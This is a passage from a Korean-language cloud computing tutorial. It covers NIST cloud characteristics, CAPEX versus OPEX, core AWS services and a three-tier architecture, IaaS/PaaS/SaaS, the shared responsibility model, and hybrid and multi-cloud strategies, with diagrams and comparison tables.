#### 미국 국립표준기술원(NIST)이 정의한 클라우드의 5대 핵심 특성
1. **주문형 셀프 서비스 (On-demand Self-service):** 사람이 승인해 줄 때까지 기다릴 필요 없이, 엔지니어가 웹 콘솔 클릭이나 API 호출 한 번으로 즉시 인프라를 프로비저닝합니다.
2. **광범위한 네트워크 접근성 (Broad Network Access):** 특정 사내망에 얽매이지 않고 표준 인터넷 프로토콜을 통해 전 세계 어디서든 모바일, PC 등 다양한 단말기로 접근할 수 있습니다.
3. **자원 풀링 및 멀티 테넌시 (Resource Pooling & Multi-tenancy):** 여러 고객이 하나의 거대한 물리적 하드웨어 풀을 가상화 기술로 안전하게 격리된 상태에서 공유하여 효율을 극대화합니다.
4. **신속한 탄력성 (Rapid Elasticity):** 트래픽이 몰리면 서버가 순식간에 수천 대로 불어나고, 트래픽이 빠지면 즉시 사라져 비용을 최소화합니다.
5. **측정 가능한 서비스 (Measured Service):** CPU 사용 시간, 네트워크 아웃바운드 대역폭, 스토리지 저장 용량 등이 초(second) 또는 밀리초(ms) 단위로 투명하게 계측되어 청구됩니다.

---

### 1.3 인프라 관리 철학의 전환: 애완동물(Pets)에서 가축(Cattle)으로

클라우드 컴퓨팅이 도래하면서 시스템 엔지니어들이 인프라를 바라보는 철학 자체가 근본적으로 바뀌었습니다. 바로 업계의 유명한 비유인 **'Pets vs Cattle'** 패러다임입니다.

| 구분 | 전통적 온프레미스 방식: 애완동물 (Pets) | 현대적 클라우드 방식: 가축 (Cattle) |
| :--- | :--- | :--- |
| **명명 방식** | `zeus`, `hera`, `poseidon` 등 서버마다 고유 이름을 붙임 | `prod-web-asg-i-0a1b2c3d` 등 식별 번호로 무작위 부여 |
| **서버 고장 시** | 서버가 아프면 밤새워 간호하고 부품을 갈아 끼우며 고침 | 서버에 문제가 생기면 즉시 폐기(Terminate)하고 새 인스턴스로 교체 |
| **설정 방식** | 엔지니어가 직접 SSH 접속하여 일일이 손으로 설정(Snowflake Server) | 코드로 인프라를 정의(IaC)하여 동일한 서버를 수천 대 복제 |
| **규모 확장** | 수십 대 이상의 서버를 일일이 관리하기 벅참 | 수천, 수만 대의 서버를 오토스케일링 그룹으로 한꺼번에 제어 |

클라우드 환경에서는 어떤 서버도 특별 대우를 받지 않습니다. 언제든 고장 날 수 있음을 전제로 아키텍처를 설계하며(Design for Failure), 언제든 교체 가능한 소모품으로 취급합니다.

---

## 02. 클라우드 컴퓨팅이 대세가 된 이유
> **CAPEX(자본 지출)에서 OPEX(운영 지출)로의 전환, 빠른 출시 속도(Time-to-Market), 글로벌 확장성, 탄력적 오토스케일링**

전 세계 수많은 스타트업, 금융기관, 정부 부처가 앞다투어 클라우드로 인프라를 이전(Cloud Migration)한 데에는 기술적 우수성을 뛰어넘는 강력한 비즈니스 및 재무적 이유가 존재합니다.

---

### 2.1 CAPEX(자본 지출)에서 OPEX(운영 지출)로의 재무적 혁신

기업 회계와 재무 관점에서 인프라 비용을 처리하는 방식이 완전히 바뀌었습니다.

```
[온프레미스 (CAPEX 중심)]
 초기에 수십억 원 일시 지출 (하드웨어 구매, IDC 구축)
 ───> 5년간 매년 감가상각 ───> 사업 실패 시 막대한 '매몰 비용(Sunk Cost)' 발생!

[클라우드 (OPEX 중심)]
 초기 비용 0원
 ───> 매달 쓴 만큼만 수도세/전기세처럼 경비 처리 (비용 유연성) ───> 실패 시 즉시 해지 가능!
```

- **CAPEX (Capital Expenditure, 자본 지출):** 건물, 토지, 대규모 기계 장비처럼 미래 이윤 창출을 위해 초기에 거액을 일시불로 투자하는 지출입니다. 한번 구입하면 감가상각 기간(보통 3~5년) 동안 자산으로 묶이며, 사업 아이템이 실패하더라도 하드웨어는 중고 처분조차 어려워 치명적인 매몰 비용이 됩니다.
- **OPEX (Operational Expenditure, 운영 지출):** 제품이나 서비스를 일상적으로 운영하면서 발생하는 경상 비용(전기료, 사무실 임대료, 클라우드 이용료 등)입니다. 수익 창출 활동에 즉각 대응하여 비용을 늘리거나 줄일 수 있으며, 전액 당해 연도 세무상 비용으로 공제받을 수 있습니다.

> **스타트업 혁명의 일등공신**  
> 과거에는 참신한 아이디어가 있어도 서버를 살 돈(수천만~수억 원)이 없어 창업 문턱이 높았습니다. 하지만 클라우드 덕분에 오늘날의 창업팀은 단돈 몇만 원, 커피 몇 잔 값으로 AWS나 GCP에서 최신 사양의 인프라를 임대하여 글로벌 서비스를 론칭할 수 있게 되었습니다.

---

### 2.2 압도적인 시장 출시 속도 (Time-to-Market)와 기민성 (Agility)

비즈니스의 승패는 "누가 더 좋은 아이디어를 빠르게 시장에 선보이고 고객의 반응을 검증하느냐"에 달려 있습니다.

- **온프레미스:** 아이디어 기획부터 서버 발주, 통관, 설치까지 최소 **2~3개월**이 소요됩니다. 인프라를 준비하는 사이에 경쟁자가 먼저 유사한 서비스를 출시해 버립니다.
- **클라우드:** 테라폼(Terraform) 같은 코드로 인프라를 정의(IaC)해 두면, 단 **5분** 만에 운영 가능한 풀스택 인프라가 배포됩니다. 가설이 맞지 않으면 10분 만에 인프라를 삭제해 비용 발생을 0으로 되돌립니다. 실패에 따르는 비용이 극단적으로 낮아지므로 기업은 마음껏 혁신적인 실험을 시도할 수 있습니다.

---

### 2.3 국경 없는 글로벌 확장성 (Global Scalability)

만약 한국의 게임 개발사가 북미와 유럽, 일본 시장에 동시에 게임을 론칭하려 한다면 어떻게 해야 할까요? 온프레미스 방식이라면 각 대륙의 현지 IDC를 물색하고, 현지 네트워크 엔지니어를 고용하며, 해저 광케이블 회선을 계약하느라 1년이 넘는 시간과 천문학적인 비용이 소모될 것입니다.

클라우드 제공자(CSP)는 이미 전 세계에 초고속 사설 광케이블망으로 연결된 수십 개의 **리전(Region)**과 수백 개의 **엣지 로케이션(Edge Location)**을 구축해 두었습니다.

```mermaid
flowchart TD
    Admin["한국 본사 엔지니어 (웹 콘솔 클릭 / CLI 명령)"]
    Admin -->|동시 배포| R1["AWS 서울 리전 (ap-northeast-2)"]
    Admin -->|동시 배포| R2["AWS 버지니아 북부 리전 (us-east-1)"]
    Admin -->|동시 배포| R3["AWS 프랑크푸르트 리전 (eu-central-1)"]
    
    R1 --> U1["아시아 사용자 (지연시간 < 30ms)"]
    R2 --> U2["북미 사용자 (지연시간 < 20ms)"]
    R3 --> U3["유럽 사용자 (지연시간 < 25ms)"]
```

엔지니어는 서울 사무실에 앉아 마우스 클릭 몇 번으로 미국 동부, 유럽, 동남아시아에 동일한 아키텍처의 서버 수백 대를 즉시 가동시킬 수 있습니다. 전 세계 사용자에게 빛의 속도에 가까운 초저지연(Low Latency) 사용자 경험을 즉각 제공하는 것입니다.

---

### 2.4 수요에 실시간으로 반응하는 탄력적 오토스케일링 (Elastic Auto Scaling)

전통적인 시스템 증설 방식인 **스케일 업(Scale-up, 수직 확장)**은 서버에 더 비싼 CPU와 더 많은 RAM을 꽂는 방식입니다. 하지만 아무리 돈을 들여도 단일 머신이 감당할 수 있는 물리적 한계선에 부딪히며, 부품을 교체하는 동안 반드시 시스템 다운타임이 발생합니다.

반면 클라우드는 **스케일 아웃(Scale-out, 수평 확장)**을 기본 철학으로 삼습니다. 똑같은 가상 서버를 옆으로 여러 대 늘리는 방식입니다.

```mermaid
flowchart LR
    subgraph ScaleOut["트래픽 폭증 시 (스케일 아웃)"]
        direction TB
        LB1["로드 밸런서 (ALB)"]
        S1["EC2 #1"]
        S2["EC2 #2"]
        S3["EC2 #3 (자동 추가)"]
        S4["EC2 #4 (자동 추가)"]
        LB1 --> S1
        LB1 --> S2
        LB1 --> S3
        LB1 --> S4
    end

    subgraph ScaleIn["트래픽 한산한 심야 (스케일 인)"]
        direction TB
        LB2["로드 밸런서 (ALB)"]
        S5["EC2 #1"]
        LB2 --> S5
        D1["EC2 #2, #3, #4 즉시 종료 및 비용 절감"]
    end
```

오토스케일링(Auto Scaling) 메커니즘은 CPU 사용률, 네트워크 대역폭, 또는 대기 큐의 요청 수와 같은 메트릭을 실시간으로 감시합니다.
1. 평일 오전 9시, 출근길 사용자가 폭증하여 CPU 사용률이 70%를 넘으면 즉시 새 서버 10대를 자동으로 띄우고 로드 밸런서에 연결합니다.
2. 밤 12시가 지나 트래픽이 평소의 10%로 줄어들면, 잉여 서버 9대를 자동으로 폐기(Scale-in)하여 불필요한 과금을 1초 단위로 차단합니다.

#### 온프레미스 vs 클라우드 종합 비교 요약
| 비교 항목 | 온프레미스 (On-Premises) | 클라우드 컴퓨팅 (Cloud) |
| :--- | :--- | :--- |
| **비용 모델** | CAPEX (초기 대규모 자본 지출) | OPEX (사용한 만큼 내는 운영 비용) |
| **자원 조달 기간** | 수 주 ~ 수개월 (구매, 배송, 설치) | 수 초 ~ 수 분 (API 호출 즉시 생성) |
| **인프라 확장성** | 스케일 업 위주, 물리적 한계 명확 | 무한에 가까운 탄력적 스케일 아웃 |
| **글로벌 진출** | 현지 데이터센터 섭외에 1년 이상 소요 | 클릭 한 번으로 글로벌 리전 즉시 배포 |
| **장애 대응** | 엔지니어 현장 출동 및 부품 교체 | 가용 영역(AZ) 다중화 및 자동 페일오버 |
| **보안 및 규제** | 방화벽, IDC 물리 보안을 자체 구축 | CSP의 글로벌 최고 수준 보안 인증 상속 |

---

## 03. AWS 클라우드는 실제로 어떤 서비스들로 구성되나요?
> **컴퓨팅(EC2), 스토리지(S3), 관계형DB(RDS), 가상네트워크(VPC), 접근제어(IAM), 모니터링(CloudWatch) 등 필수 서비스 맵과 연계 구조**

전 세계 클라우드 시장 점유율 1위인 **AWS(Amazon Web Services)**는 200개가 넘는 방대한 서비스를 제공합니다. 하지만 실무에서 웹 애플리케이션과 엔터프라이즈 시스템을 지탱하는 핵심 뼈대는 다음 **6대 기본 서비스**로 수렴됩니다.

---

### 3.1 AWS의 기반: 글로벌 인프라스트럭처 (Region & AZ)

AWS의 개별 서비스를 이해하기 전에, 전 세계에 깔려 있는 물리적 인프라 단위를 알아야 합니다.

```
[AWS 글로벌 인프라 계층 구조]
 리전 (Region, 예: 서울 ap-northeast-2)
  ├── 가용 영역 A (AZ-a: 물리적으로 떨어진 1개 이상의 IDC 군집)
  ├── 가용 영역 B (AZ-b: 지진/화재/정전 격리, 초고속 전용 광케이블 연결)
  ├── 가용 영역 C (AZ-c)
  └── 가용 영역 D (AZ-d)
```

- **리전 (Region):** 전 세계 주요 거점 도시(서울, 도쿄, 버지니아, 프랑크푸르트 등)에 위치한 독립된 지리적 영역입니다.
- **가용 영역 (AZ, Availability Zone):** 하나의 리전 안에 존재하는 **완전히 격리된 데이터센터(IDC) 군집**입니다. 각 AZ는 홍수, 지진, 정전 등의 재난이 동시에 영향을 주지 않도록 수십 킬로미터 이상 물리적으로 떨어져 있으며, AZ 간에는 자체 초고속 전용 광케이블로 연결되어 있어 1~2ms 이하의 초저지연 통신이 가능합니다. 엔지니어는 시스템을 최소 2개 이상의 AZ에 분산 배치하여 **고가용성(High Availability, HA)**을 달성합니다.

---

### 3.2 백엔드 및 인프라 엔지니어가 매일 다루는 6대 핵심 서비스

```mermaid
mindmap
  root((AWS 핵심 서비스))
    네트워크
      Amazon VPC
        서브넷 (Public / Private)
        인터넷 게이트웨이 (IGW)
        보안 그룹 (Security Group)
    컴퓨팅
      Amazon EC2
        가상 서버 인스턴스
        Auto Scaling Group
    스토리지
      Amazon S3
        오브젝트 스토리지 (99.999999999% 내구성)
        버킷 및 정적 웹 호스팅
    데이터베이스
      Amazon RDS
        관리형 RDBMS (MySQL, PostgreSQL)
        Multi-AZ 복제 및 Read Replica
    보안 / 권한
      AWS IAM
        최소 권한의 원칙
        User, Group, Role, Policy
    관제 / 모니터링
      Amazon CloudWatch
        메트릭 수집, 로그 관리
        경보 (Alarm) & 자동 조치
```

#### 1. 컴퓨팅: Amazon EC2 (Elastic Compute Cloud)
- **개념:** 클라우드 상에서 구동되는 크기 조정이 가능한 가상 서버(Virtual Machine)입니다.
- **특징:** 필요한 OS(리눅스, 윈도우), CPU 코어 수, RAM 용량, GPU 유무에 따라 수백 가지의 **인스턴스 타입**(예: `t4g.micro`, `c6i.xlarge`, `p4d.24xlarge`)을 자유롭게 선택할 수 있습니다.
- **AMI (Amazon Machine Image):** OS와 기본 소프트웨어가 미리 구워진 황금 템플릿(Golden Template)으로, 언제든 동일한 상태의 서버를 무한 복제할 수 있습니다.

#### 2. 스토리지: Amazon S3 (Simple Storage Service)
- **개념:** 인터넷 어디서나 웹 표준 프로토콜(HTTP/HTTPS)로 데이터를 저장하고 꺼내올 수 있는 고확장성 **오브젝트 스토리지(Object Storage)**입니다.
- **경이로운 내구성:** 연간 **99.999999999%(11 9s)**의 데이터 내구성을 자랑합니다. 1,000만 개의 객체를 보관했을 때 10,000년에 단 1개의 파일이 손상될까 말까 한 신뢰도입니다.
- **버킷(Bucket)과 객체(Object):** 계층형 폴더 구조가 아닌 플랫(Flat)한 네임스페이스 구조이며, 이미지, 동영상 백업, 로그 파일, 정적 웹사이트 호스팅에 표준으로 사용됩니다.

#### 3. 관리형 관계형 데이터베이스: Amazon RDS (Relational Database Service)
- **개념:** MySQL, PostgreSQL, MariaDB, Oracle, SQL Server 등을 클라우드에서 손쉽게 설치, 운영, 확장할 수 있도록 돕는 완전관리형 DB 서비스입니다.
- **자동화된 유지보수:** OS 패치, 백업 생성, 시점 복구(Point-in-Time Recovery), 장애 조치(Failover)를 AWS가 알아서 처리합니다.
- **Multi-AZ 기능:** 메인 DB(Primary)의 데이터를 다른 AZ에 있는 대기 DB(Standby)로 동기식 실시간 복제합니다. 메인 IDC에 불이 나더라도 1~2분 안에 대기 DB가 자동으로 메인으로 승격되어 무중단 서비스를 유지합니다.

#### 4. 격리된 가상 네트워크: Amazon VPC (Virtual Private Cloud)
- **개념:** 사용자 전용의 논리적으로 완벽히 격리된 가상 사설 네트워크 공간입니다.
- **서브넷(Subnet) 분리:**
  - **퍼블릭 서브넷(Public Subnet):** 인터넷 게이트웨이(IGW)와 연결되어 외부 인터넷 사용자가 직접 접속할 수 있는 영역 (웹 서버, 로드 밸런서 배치).
  - **프라이빗 서브넷(Private Subnet):** 외부 인터넷과 완전히 단절된 안전한 내부 영역 (데이터베이스, 결제 엔진 등 핵심 백엔드 배치).
- **보안 그룹 (Security Group):** 인스턴스 가상 방화벽으로, 포트(Port)와 IP 대역 기반으로 인바운드/아웃바운드 트래픽을 허용(White-list)합니다.

#### 5. 신원 및 접근 관리: AWS IAM (Identity and Access Management)
- **개념:** AWS 내의 모든 리소스에 대한 접근 권한을 세밀하게 제어하는 관문입니다.
- **최소 권한의 원칙(Principle of Least Privilege):** 업무를 수행하는 데 꼭 필요한 최소한의 권한만 부여해야 안전합니다.
- **핵심 구성요소:**
  - **User / Group:** 사람 개발자 및 팀에 부여하는 영구 자격증명.
  - **Role (역할):** 사람이 아닌 **EC2 서버나 람다 함수 같은 AWS 리소스에 임시 권한을 위임**할 때 사용합니다. (하드코딩된 API Key 유출 사고를 방지하는 핵심 보안 장치).
  - **Policy (정책):** "S3의 특정 버킷에서 읽기만 허용한다"와 같이 JSON 문서 형태로 작성하는 권한 규칙.

#### 6. 통합 관제 및 로깅: Amazon CloudWatch
- **개념:** AWS 리소스와 애플리케이션의 상태를 실시간으로 모니터링하는 눈과 귀입니다.
- **기능:** EC2의 CPU 사용률, 디스크 I/O, 네트워크 트래픽 등 기본 메트릭을 수집하고, 애플리케이션 로그(CloudWatch Logs)를 중앙 집중 저장합니다.
- **경보(Alarm)와 액션:** "CPU 사용률이 3분 연속 80%를 넘으면 오토스케일링을 트리거하여 서버를 2대 더 늘리고, 담당 엔지니어 슬랙(Slack)으로 비상 알림을 쏴라"와 같은 자동화 파이프라인을 구축합니다.

---

### 3.3 프로덕션 엔터프라이즈 3-Tier 아키텍처 연계 구조

이 6가지 서비스는 따로 노는 것이 아니라, 현실 세계의 웹 애플리케이션에서 다음과 같이 아름다운 유기적 연계망을 이룹니다.

```mermaid
flowchart TD
    User(["인터넷 사용자"]) --> DNS["Route 53 (DNS)"]
    DNS --> CDN["CloudFront (CDN 캐시)"]
    CDN -->|정적 리소스 요청| S3["Amazon S3 (이미지/정적 웹)"]
    CDN -->|동적 API 요청| ALB["ALB (Application Load Balancer)"]

    subgraph VPC ["Amazon VPC (사용자 전용 가상 네트워크)"]
        subgraph PublicSubnet ["Public Subnets (AZ-a & AZ-b 다중화)"]
            ALB
            NAT["NAT 게이트웨이 (아웃바운드 인터넷 통로)"]
        end

        subgraph PrivateSubnetApp ["Private Subnets - App Layer (외부 접근 불가)"]
            ASG["Auto Scaling Group"]
            EC2_1["EC2 Instance (AZ-a)"]
            EC2_2["EC2 Instance (AZ-b)"]
            ASG -.-> EC2_1
            ASG -.-> EC2_2
            ALB --> EC2_1
            ALB --> EC2_2
            EC2_1 -.-> NAT
            EC2_2 -.-> NAT
        end

        subgraph PrivateSubnetDB ["Private Subnets - DB Layer (최고 보안 구역)"]
            RDS_Master[("Amazon RDS Master (AZ-a)")]
            RDS_Standby[("Amazon RDS Standby (AZ-b 동기 복제)")]
            EC2_1 --> RDS_Master
            EC2_2 --> RDS_Master
            RDS_Master -.->|실시간 동기화| RDS_Standby
        end
    end

    subgraph Management ["인프라 공통 관리 및 거버넌스"]
        IAM["AWS IAM (EC2 인스턴스 Role 권한 통제)"]
        CW["Amazon CloudWatch (CPU 메트릭 감시 & ASG 트리거)"]
        EC2_1 -.-> IAM
        EC2_2 -.-> IAM
        EC2_1 -.-> CW
        EC2_2 -.-> CW
        CW -.->|스케일 아웃 명령| ASG
    end
```

이 구조는 외부 공격자로부터 데이터베이스를 완벽히 격리(Private Subnet)하면서도, 트래픽 폭증에 유연하게 대응(ALB + EC2 ASG)하고, 재난 상황에서도 서비스가 멈추지 않는(Multi-AZ RDS) 현대 클라우드 아키텍처의 교과서적인 모범 사례(Best Practice)입니다.

---

## 04. 클라우드 서비스의 종류는 무엇인가요? IaaS, PaaS, SaaS
> **Pizza as a Service 비유, 책임 공유 모델(Shared Responsibility), 인프라 대여(IaaS), 플랫폼 대여(PaaS), 완제품 소프트웨어(SaaS) 비교 분석표**

클라우드를 처음 접할 때 가장 헷갈리는 약어들이 바로 **IaaS, PaaS, SaaS**입니다. 이들은 클라우드 벤더가 인프라 스택의 "어디서부터 어디까지를 대신 관리해 주느냐"에 따른 서비스 추상화(Abstraction) 수준의 분류입니다.

---

### 4.1 '피자 서비스 모델 (Pizza as a Service)' 비유로 한눈에 정복하기

엔지니어링 업계에서 가장 유명한 알버트 바론(Albert Barron)의 **'피자 비유(Pizza as a Service)'**를 통해 이 세 가지 모델을 직관적으로 이해해 보겠습니다.

```
[피자를 먹는 4가지 방식]
1. Traditional On-Premises (집에서 피자 만들기):
   도우 반죽, 토핑, 피자 소스, 가스렌지/오븐, 전기/가스, 식탁, 음료수까지 모든 것을 본인이 준비합니다.

2. IaaS (Take and Bake / 냉동 피자 포장):
   가게에서 도우, 소스, 토핑이 올려진 조리 전 피자를 사옵니다. 가스렌지/오븐과 식탁, 음료는 본인 것을 씁니다.

3. PaaS (피자 배달 주문):
   가게에서 완성된 따뜻한 피자를 집 문앞까지 배달해 줍니다. 당신은 집 식탁에 앉아 음료수만 따라 마시면 됩니다.

4. SaaS (피자 레스토랑 외식):
   피자 전문점에 걸어 들어가 주문하고 포크와 나이프를 들고 먹기만 하면 됩니다. 조리, 설거지, 서빙 모두 식당이 합니다.
```

---

### 4.2 IaaS, PaaS, SaaS의 기술적 정의와 실전 사례

```mermaid
flowchart TD
    subgraph IaaS["IaaS (Infrastructure as a Service)"]
        direction TB
        I_Manage["내가 관리: OS, 런타임, 미들웨어, 앱, 데이터"]
        I_Vendor["벤더가 관리: 서버 하드웨어, 스토리지, 가상화, 네트워크"]
        I_Ex["대표: AWS EC2, GCP GCE, Azure VM"]
    end

    subgraph PaaS["PaaS (Platform as a Service)"]
        direction TB
        P_Manage["내가 관리: 소스코드 애플리케이션, 데이터"]
        P_Vendor["벤더가 관리: OS 패치, 런타임 튜닝, 오토스케일링, 인프라 전체"]
        P_Ex["대표: Elastic Beanstalk, Heroku, Vercel, App Engine"]
    end

    subgraph SaaS["SaaS (Software as a Service)"]
        direction TB
        S_Manage["내가 관리: 웹 브라우저 접속, 계정 로그인, 데이터 활용"]
        S_Vendor["벤더가 관리: 코드, 서버, 인프라, 보안, 패치, 기능 업데이트 100%"]
        S_Ex["대표: Gmail, Google Docs, Notion, Slack, Salesforce"]
    end
```

#### 1. IaaS (Infrastructure as a Service, 서비스형 인프라)
- **개념:** 가상화된 순수 하드웨어 자원(컴퓨팅, 스토리지, 네트워킹)만을 빌려주는 모델입니다.
- **특징:** 빈 방을 빌리는 것과 같습니다. OS 설치(Ubuntu, RedHat, Windows), 웹 서버(Nginx, Apache) 세팅, 런타임(Java, Python, Node.js) 설치, 보안 방화벽 설정까지 사용자가 완벽한 제어권(Full Control)을 가집니다.
- **적합 대상:** 시스템 환경에 대한 극도로 세밀한 튜닝이 필요하거나, 레거시 시스템을 그대로 클라우드로 옮겨오는(Lift-and-Shift) 엔터프라이즈 기업.

#### 2. PaaS (Platform as a Service, 서비스형 플랫폼)
- **개념:** 개발자가 복잡한 하부 인프라(OS, 네트워크, 서버 패치 등)를 일체 신경 쓰지 않고, 오직 **애플리케이션 소스코드와 비즈니스 로직에만 집중**할 수 있도록 런타임 플랫폼 전체를 빌려주는 모델입니다.
- **특징:** 개발자가 `git push` 명령을 날리거나 빌드된 JAR 파일을 업로드하면, 플랫폼이 알아서 컨테이너를 띄우고, 로드 밸런서를 붙이며, 트래픽에 맞춰 오토스케일링을 수행합니다. OS 버전 업데이트나 보안 패치도 벤더가 대신합니다.
- **적합 대상:** 인프라 전담 엔지니어가 부족한 초기 스타트업이나, 빠른 프로토타입 및 MVP(최소 기능 제품) 개발이 필요한 개발팀.

#### 3. SaaS (Software as a Service, 서비스형 소프트웨어)
- **개념:** 클라우드 인프라 위에서 구동되는 완제품 형태의 소프트웨어를 사용자가 별도의 설치 없이 웹 브라우저나 모바일 앱을 통해 구독형으로 사용하는 모델입니다.
- **특징:** 사용자는 서버가 어디서 어떻게 돌아가는지 전혀 알 필요가 없습니다. 소프트웨어의 버그 수정, 대규모 기능 릴리스, 데이터 백업이 클라우드 뒷단에서 투명하게 이루어집니다.
- **적합 대상:** 일반 소비자 및 기업의 업무 생산성 도구 (협업 툴, CRM, 메일 서비스 등).

---

### 4.3 보안의 황금률: 책임 공유 모델 (Shared Responsibility Model)

클라우드를 사용할 때 가장 많은 오해가 일어나는 지점이 바로 **보안**입니다. "우리는 AWS를 쓰니까 보안은 아마존이 다 알아서 해주겠지?"라고 믿었다가는 치명적인 데이터 유출 사고를 당하게 됩니다. 클라우드 보안의 대원칙은 바로 **책임 공유 모델**입니다.

```mermaid
flowchart TD
    subgraph Cust["고객의 책임 (Security IN the Cloud)"]
        D1["고객 데이터 및 암호화"]
        D2["IAM 사용자 계정 관리 및 다중요소인증 (MFA)"]
        D3["게스트 OS 패치 및 방화벽(보안 그룹) 규칙 설정"]
        D4["네트워크 트래픽 보호 및 애플리케이션 취약점 패치"]
    end

    subgraph CSP["클라우드 제공자(AWS)의 책임 (Security OF the Cloud)"]
        C1["데이터센터 물리적 출입 통제 및 경비"]
        C2["서버 하드웨어, 스토리지 드라이브 및 시설 전력/공조"]
        C3["호스트 OS 및 가상화 하이퍼바이저 보안"]
        C4["전 세계를 잇는 글로벌 전용 네트워크 케이블 보호"]
    end

    Cust --- CSP
```

- **CSP의 책임 ("Security OF the Cloud"):** AWS/GCP는 물리적 데이터센터의 무단 침입 방지, 하드웨어 파손, 하이퍼바이저 소프트웨어 취약점, 해저 케이블 절단 등 클라우드 서비스를 구성하는 기반 인프라를 철통같이 지킬 책임이 있습니다.
- **고객의 책임 ("Security IN the Cloud"):** 클라우드 위에 올린 가상 서버의 비밀번호를 `1234`로 설정하거나, DB 포트(3306)를 전 세계(`0.0.0.0/0`)에 열어두거나, S3 버킷을 실수로 퍼블릭 공개로 돌려 기밀 문서를 유출한 것은 전적으로 고객의 책임입니다.

#### 서비스 모델별 관리 영역 및 책임 분계선 비교 매트릭스
| 인프라 스택 계층 | 온프레미스 (On-Premises) | IaaS (예: EC2) | PaaS (예: Elastic Beanstalk) | SaaS (예: Google Docs) |
| :--- | :---: | :---: | :---: | :---: |
| **애플리케이션 (Code)** | **고객 직접 관리** | **고객 직접 관리** | **고객 직접 관리** | 클라우드 제공자 |
| **데이터 (Data)** | **고객 직접 관리** | **고객 직접 관리** | **고객 직접 관리** | **고객 직접 관리(권한)** |
| **런타임 (Java, Python 등)** | **고객 직접 관리** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 |
| **미들웨어 (WAS, 웹서버)** | **고객 직접 관리** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 |
| **운영체제 (OS)** | **고객 직접 관리** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 |
| **가상화 계층 (Hypervisor)** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 | 클라우드 제공자 |
| **물리 서버 (Hardware)** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 | 클라우드 제공자 |
| **스토리지 (Disk/SAN)** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 | 클라우드 제공자 |
| **네트워킹 (Switch, Cable)** | **고객 직접 관리** | 클라우드 제공자 | 클라우드 제공자 | 클라우드 제공자 |

---

## 05. 하이브리드 클라우드와 멀티 클라우드는 무엇인가요?
> **온프레미스 + 퍼블릭 클라우드(하이브리드: 금융/공공 보안 준수), 복수 벤더 사용(멀티: AWS + GCP 등, 락인(Lock-in) 방지 및 재해 복구)**

기업의 규모가 커지고 비즈니스가 고도화되면, "모든 시스템을 단 하나의 퍼블릭 클라우드(예: AWS)로 옮기자"는 단순한 전략은 다양한 현실적 제약에 부딪히게 됩니다. 이로 인해 현대 엔터프라이즈 아키텍처의 표준으로 자리 잡은 것이 바로 **하이브리드 클라우드(Hybrid Cloud)**와 **멀티 클라우드(Multi-Cloud)**입니다.

---

### 5.1 하이브리드 클라우드(Hybrid Cloud): 과거와 미래의 지혜로운 동거

**하이브리드 클라우드**는 기업 내부의 **온프레미스(프라이빗 데이터센터)와 퍼블릭 클라우드를 전용망(AWS Direct Connect, VPN 등)으로 연결하여 하나의 유기적인 단일 인프라처럼 연동**하는 아키텍처입니다.

```mermaid
flowchart LR
    subgraph OnPrem["기업 내부 온프레미스 (Private IDC)"]
        CoreDB[("핵심 고객 원장 DB\n(주민번호/계좌정보 등 초민감 데이터)")]
        Legacy["레거시 ERP / 메인프레임"]
    end

    subgraph DirectConnect["초고속 보안 전용 회선 (AWS Direct Connect / VPN)"]
        Tunnel["10Gbps 전용 암호화 터널 (지연시간 < 5ms)"]
    end

    subgraph PublicCloud["AWS 퍼블릭 클라우드"]
        WebASG["웹/모바일 프론트엔드 (오토스케일링)"]
        AI_Batch["빅데이터 및 AI 분석 클러스터 (수천 대 온디맨드)"]
    end

    CoreDB <---> Tunnel
    Legacy <---> Tunnel
    Tunnel <---> WebASG
    Tunnel <---> AI_Batch
```

#### 하이브리드 클라우드가 반드시 필요한 3대 현실적 이유
1. **엄격한 법적 규제 준수(Compliance) 및 데이터 주권(Data Sovereignty):**
   - 금융권(은행, 증권사)의 고객 금융 거래 원장, 국방 및 공공기관의 국가 기밀 데이터, 병원의 전자의무기록(EMR)은 법적으로 국가 내 물리적 IDC 외부나 공용 클라우드로 반출이 금지되어 있는 경우가 많습니다.
   - 따라서 핵심 민감 데이터는 사내 온프레미스에 두고, 대고객 이벤트 웹사이트나 모바일 알림 서비스만 퍼블릭 클라우드로 띄워 연결합니다.
2. **기존 설비 투자에 대한 감가상각 잔존:**
   - 3년 전 수백억 원을 들여 구축한 데이터센터 하드웨어가 아직 멀쩡히 돌아가고 있는데, 이를 하루아침에 폐기처분하는 것은 기업 재무상 불가능합니다. 점진적 마이그레이션의 징검다리 역할을 합니다.
3. **클라우드 버스팅 (Cloud Bursting):**
   - 평상시의 일상적인 연산은 이미 구축된 사내 온프레미스 자원으로 100% 처리하여 비용을 아낍니다.
   - 연말 정산이나 명절 이벤트처럼 트래픽이 평소의 10배로 폭증할 때만 순간적으로 퍼블릭 클라우드로 연산 부하를 넘겨(Bursting) 유연하게 처리합니다.

---

### 5.2 멀티 클라우드(Multi-Cloud): 독점의 공포를 넘어서는 분산 전략

**멀티 클라우드**는 두 개 이상의 서로 다른 퍼블릭 클라우드 벤더(예: **AWS + Google Cloud(GCP)**, 또는 **AWS + Microsoft Azure**)를 동시에 조합하여 사용하는 전략입니다.

```mermaid
flowchart TD
    User(["전 세계 고객 트래픽"]) --> GlobalDNS["글로벌 스마트 DNS (Traffic Director)"]

    subgraph AWS_Env["AWS 클라우드 (강점: 탄탄한 글로벌 인프라)"]
        AWS_Web["글로벌 전자상거래 백엔드"]
        AWS_Storage["Amazon S3 (기본 원본 데이터 저장)"]
    end

    subgraph GCP_Env["Google Cloud (강점: 초격차 빅데이터 & AI)"]
        GCP_BQ["Google BigQuery (페타바이트 SQL 초고속 분석)"]
        GCP_Vertex["Vertex AI (최신 생성형 모델 학습)"]
    end

    subgraph Azure_Env["Microsoft Azure (강점: 엔터프라이즈 연계)"]
        Azure_AD["Active Directory (사내 임직원 통합 인증)"]
        Azure_O365["Office 365 및 사내 ERP 연동"]
    end

    GlobalDNS -->|메인 커머스 트래픽| AWS_Web
    AWS_Storage -.->|데이터 파이프라인 동기화| GCP_BQ
    GlobalDNS -.->|AWS 리전 장애 시 자동 페일오버| GCP_BQ
```

#### 기업들이 멀티 클라우드를 도입하는 핵심 동기
1. **벤더 락인(Vendor Lock-in, 종속) 방지:**
